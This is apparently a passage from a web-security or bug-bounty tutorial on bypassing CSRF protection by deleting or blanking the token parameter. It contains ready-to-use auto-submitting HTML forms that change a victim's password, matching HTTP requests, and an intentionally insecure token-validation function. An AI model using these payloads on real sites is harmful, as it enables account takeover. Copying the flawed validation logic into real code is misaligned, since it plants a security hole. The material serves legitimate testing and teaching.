 - If the site isn’t validating CSRF tokens in the right way, you can still achieve CSRF with a few modifications of your malicious HTML page.
- First, try deleting the token parameter or sending a blank token parameter. 
- For example, this will send the request without a csrf_token parameter:
```
POST /password_change
Host: email.example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE
(POST request body)
new_password=abc123
```
- You can generate this request with an HTML form like this:
```
<html>
 <form method="POST" action="https://email.example.com/password_change" id="csrf-form">
 <input type="text" name="new_password" value="abc123">
 <input type='submit' value="Submit">
 </form>
 <script>document.getElementById("csrf-form").submit();</script>
</html>
```
- This next request will send a blank csrf_token parameter:
```HTTP
POST /password_change
Host: email.example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE
(POST request body)
new_password=abc123&csrf_token=
```
- You can generate a payload like this by using an HTML form like the following:
```
<html>
 <form method="POST" action="https://email.example.com/password_change" id"csrf-form">
 <input type="text" name="new_password" value="abc123">
 <input type="text" name="csrf_token" value="">
 <input type='submit' value="Submit">
 </form>
 <script>document.getElementById("csrf-form").submit();</script>
</html>
```
- Deleting the token parameter or sending a blank token often works because of a common application logic mistake. 
- Applications sometimes check the validity of the token only if the token exists, or if the token parameter is not blank.
- The code for an insecure application’s validation mechanism might look roughly like this:
```
def validate_token():
1 if (request.csrf_token == session.csrf_token):
 pass
 else:
2 throw_error("CSRF token incorrect. Request rejected.")
[...]
def process_state_changing_action():
 if request.csrf_token:
 validate_token()
3 execute_action()
```
- This fragment of Python code first checks whether the CSRF token exists 1. 
- If it exists, the code will proceed to validate the token. If the token is valid, the code will continue. 
- If the token is invalid, the code will stop the execution and produce an error 2. 
- On the other hand, if the token does not exist, the code will skip validation and jump to executing the action right away 3. 
- In this case, sending a request without the token, or a blank value as the token, may mean the server won’t attempt to validate the token at all.
- You can also try submitting the request with another session’s CSRF token. 